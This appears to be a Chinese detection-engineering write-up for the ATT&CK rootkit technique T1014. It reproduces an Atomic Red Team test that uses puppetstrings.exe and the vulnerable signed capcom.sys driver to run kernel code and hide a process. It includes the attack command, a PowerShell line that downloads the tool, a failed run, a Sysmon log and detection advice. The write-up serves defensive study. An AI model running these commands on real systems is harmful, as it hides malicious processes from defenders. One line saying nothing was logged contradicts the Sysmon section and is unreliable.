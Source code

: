 # T1014-win-Rootkit

## 来自ATT&CK的描述

攻击者可能使用rootkits来隐藏程序、文件、网络连接、服务、驱动程序和其他系统组件的存在。Rootkits是通过拦截、钩住和修改提供系统信息的操作系统API调用来隐藏恶意软件的存在的程序。

Rootkits或启用Rootkit的功能可能存在于操作系统的用户或内核层面，或更低的层面，包括管理程序、主引导记录或系统固件。在Windows、Linux和Mac OS X系统中，已经出现了rootkits。

##  测试案例

Windows签名的驱动程序 Rootkit测试

该测试利用已签名的驱动程序在Kernel中执行代码。这个例子来自一个博客，它利用puppetstrings.exe和易受攻击的（已签名的驱动程序）capcom.sys。capcom.sys驱动可以在github上找到。一个很好的参考是在这里： http://www.fuzzysecurity.com/tutorials/28.html SHA1 C1D5CF8C43E7679B782630E93F5E6420CA1749A7 我们利用这里的工作： https://zerosum0x0.blogspot.com/2017/07/puppet-strings-dirty-secret-for-free.html 我们的PoC漏洞的哈希值是SHA1 DD8DA630C00953B6D5182AA66AF999B1E117F441 这将模拟隐藏一个进程。

攻击命令：
使用command_prompt运行! 需要提升权限（如root或admin）。
```
#{puppetstrings_path} #{driver_path}
```

driver_path：C:\Drivers\driver.sys
puppetstrings_path：PathToAtomicsFolder\T1014\bin\puppetstrings.exe

依赖性: 使用 powershell 运行!
说明：puppetstrings.exe必须存在于磁盘的指定位置（#{puppetstrings_path}）。
检查先决条件命令。
```
if (Test-Path #{puppetstrings_path}) {exit 0} else {exit 1}
```

获得先决条件的命令：
```
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1014/bin/puppetstrings.exe" -OutFile "#{puppetstrings_path}"
```

## 检测日志

暂无，经过本地复现，Windows安全日志、Powershell操作日志、Sysmon日志未记录到此命令的执行情况。

## 测试复现

### 测试1 Windows Signed Driver Rootkit Test

```
PS C:\Windows\system32> C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1014\bin\puppetstrings.exe C:\Drivers\driver.sys
Look for process in tasklist.exe
请按任意键继续. . .
puppetstrings failed - error: 00000003
请按任意键继续. . .
```

Windows Server 2019未能成功复现。

## 日志留痕

Windows Sysmon日志可记录此测试行为。

```
日志名称:          Microsoft-Windows-Sysmon/Operational
来源:            Microsoft-Windows-Sysmon
日期:            2022/1/10 14:58:52
事件 ID:         1
任务类别:          Process Create (rule: ProcessCreate)
级别:            信息
关键字:           
用户:            SYSTEM
计算机:           zhuli.qax.com
描述:
Process Create:
RuleName: technique_id=T1086,technique_name=PowerShell
UtcTime: 2022-01-10 06:58:52.494
ProcessGuid: {78c84c47-d92c-61db-450c-000000000800}
ProcessId: 7608
Image: C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1014\bin\puppetstrings.exe
FileVersion: -
Description: -
Product: -
Company: -
OriginalFileName: -
CommandLine: "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1014\bin\puppetstrings.exe" C:\Drivers\driver.sys
CurrentDirectory: C:\Windows\system32\
User: QAX\Administrator
LogonGuid: {78c84c47-d270-61db-d56a-010100000000}
LogonId: 0x1016AD5
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=DD8DA630C00953B6D5182AA66AF999B1E117F441,MD5=676ED2C5D31006FC4CBC1B0E0D564F4F,SHA256=1184228AC822F0F8C7C8242325052F91B500AD7C08E4A9B266211E8E623CAE8E,IMPHASH=1B1B5BBC1BB70593CD761304457481AC
ParentProcessGuid: {78c84c47-d270-61db-4a0b-000000000800}
ParentProcessId: 4560
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentCommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
ParentUser: QAX\Administrator
事件 Xml:
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385f-c22a-43e0-bf4c-06f5698ffbd9}" />
    <EventID>1</EventID>
    <Version>5</Version>
    <Level>4</Level>
    <Task>1</Task>
    <Opcode>0</Opcode>
    <Keywords>0x8000000000000000</Keywords>
    <TimeCreated SystemTime="2022-01-10T06:58:52.495942600Z" />
    <EventRecordID>9861</EventRecordID>
    <Correlation />
    <Execution ProcessID="2764" ThreadID="3668" />
    <Channel>Microsoft-Windows-Sysmon/Operational</Channel>
    <Computer>zhuli.qax.com</Computer>
    <Security UserID="S-1-5-18" />
  </System>
  <EventData>
    <Data Name="RuleName">technique_id=T1086,technique_name=PowerShell</Data>
    <Data Name="UtcTime">2022-01-10 06:58:52.494</Data>
    <Data Name="ProcessGuid">{78c84c47-d92c-61db-450c-000000000800}</Data>
    <Data Name="ProcessId">7608</Data>
    <Data Name="Image">C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1014\bin\puppetstrings.exe</Data>
    <Data Name="FileVersion">-</Data>
    <Data Name="Description">-</Data>
    <Data Name="Product">-</Data>
    <Data Name="Company">-</Data>
    <Data Name="OriginalFileName">-</Data>
    <Data Name="CommandLine">"C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1014\bin\puppetstrings.exe" C:\Drivers\driver.sys</Data>
    <Data Name="CurrentDirectory">C:\Windows\system32\</Data>
    <Data Name="User">QAX\Administrator</Data>
    <Data Name="LogonGuid">{78c84c47-d270-61db-d56a-010100000000}</Data>
    <Data Name="LogonId">0x1016ad5</Data>
    <Data Name="TerminalSessionId">1</Data>
    <Data Name="IntegrityLevel">High</Data>
    <Data Name="Hashes">SHA1=DD8DA630C00953B6D5182AA66AF999B1E117F441,MD5=676ED2C5D31006FC4CBC1B0E0D564F4F,SHA256=1184228AC822F0F8C7C8242325052F91B500AD7C08E4A9B266211E8E623CAE8E,IMPHASH=1B1B5BBC1BB70593CD761304457481AC</Data>
    <Data Name="ParentProcessGuid">{78c84c47-d270-61db-4a0b-000000000800}</Data>
    <Data Name="ParentProcessId">4560</Data>
    <Data Name="ParentImage">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data>
    <Data Name="ParentCommandLine">"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" </Data>
    <Data Name="ParentUser">QAX\Administrator</Data>
  </EventData>
</Event>
```

## 检测规则/思路

### 建议

一些rootkit保护措施可能内置于反病毒或操作系统软件中。有一些专门的rootkit检测工具可以寻找特定类型的rootkit行为。监测是否存在未被识别的DLLs、设备、服务以及对MBR的改变。

## 参考推荐
MITRE-ATT&CK-T1014

<https://attack.mitre.org/techniques/T1014>

Atomic-red-team-T1014

<https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1014>
